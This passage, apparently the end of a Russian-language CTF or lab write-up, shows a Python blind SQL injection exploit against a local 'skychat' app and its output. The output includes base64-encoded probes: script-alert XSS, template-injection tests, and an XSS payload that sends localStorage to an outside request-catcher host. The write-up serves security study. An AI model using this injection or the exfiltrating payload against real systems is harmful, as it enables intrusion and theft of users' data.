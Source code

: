 ```python
        message = ""
        msg_length = bsearch(
            last_message["id"], f"SELECT LENGTH(text) FROM Messages WHERE id = {i}"
        )
        
        for j in range(msg_length):
            msg_char = chr(
                bsearch(
                    last_message["id"],
                    f"SELECT {nth('text', j)} FROM Messages WHERE id = {i}",
                )
            )
            message += msg_char
        messages.append(message)
    print(messages)


pwn("http://localhost:31337")
```

Пример работы эксплойта:

Перед тем, как активировать эксплойт, в качестве теста я немного понабирал сообщений в разных чатах разных аккаунтов (ответов на свои сообщения я получить не могу из-за отсутствия компонента ИИ):

![ScreenShot](screenshots/19.png)

```sh
$#> python skychat__blind-sqli.py

enigma-745d89e2a15e9390 o6mXRbl7wjeZ-OPusjnJvQ==
Total messages: 28
['', 'Z2cK', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSG93IGNhbiBJIGFzc2lzdCB5b3UgdG9kYXk/', 'e3s3KjcKfX0=', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIHBlcmZvcm0gYSBjYWxjdWxhdGlvbi4gVGhlIHJlc3VsdCBvZiA3IG11bHRpcGxpZWQgYnkgNyBpcyA0OS4gSXMgdGhlcmUgYW55dGhpbmcgZWxzZSBJIGNhbiBoZWxwIHlvdSB3aXRoPw==', 'YWRtaW4K', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gYWRtaW5pc3RyYXRvciwgSSdtIGhlcmUgdG8gYXNzaXN0IHlvdS4gSG93IGNhbiBJIGhlbHAgeW91IHRvZGF5Pw==', 'cGFzc3dvcmQK', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgQXMgYW4gQUkgbGFuZ3VhZ2UgbW9kZWwsIEkgZG9uJ3QgaGF2ZSBhY2Nlc3MgdG8gcGFzc3dvcmRzLiBJZiB5b3UgaGF2ZSBhbnkgb3RoZXIgcXVlc3Rpb25zIG9yIG5lZWQgYXNzaXN0YW5jZSwgZmVlbCBmcmVlIHRvIGFzayE=', 'b3BlbkNoYXQoKTsgYWxlcnQoWFNTKTsgLy8K', 'Tm8gcGFzc3dvcmQgZm9yIHlvdSEgSXQgbG9va3MgbGlrZSB5b3UncmUgdHJ5aW5nIHRvIGluamVjdCBhIG1hbGljaW91cyBjb2RlIChYU1MpIGludG8gdGhlIGNoYXQuIEknbSBzb3JyeSwgYnV0IEkgY2FuJ3QgZXhlY3V0ZSBvciBkaXNwbGF5IHRoYXQgY29kZS4gSWYgeW91IGhhdmUgYW55IGxlZ2l0aW1hdGUgcXVlc3Rpb25zIG9yIHJl', '', 'SGkK', 'Nyo3Cg==', 'PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=', 'PGltZyBzcmM9Ii8uLi8uLi8uLi9ldGMvcGFzc3dkIiBvbmVycm9yPSJkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly9sb2xrZWsucmVxdWVzdGNhdGNoZXIuY29tL3Rlc3Q/Yz0nK2xvY2FsU3RvcmFnZSIgLz4=', 'SGkh', 'PHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pgo=', 'Ij4KPHNjcmlwdD5hbGVydCgxKTs8c2NyaXB0Pg==', 'e3s3Kjd9fQ==', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'e3s3KjcKfX0=', 'aGZoYmYK', 'e3s3KjcKfX0=', '0', 'SSB3aWxsIGhhY2sgdSkK']
```
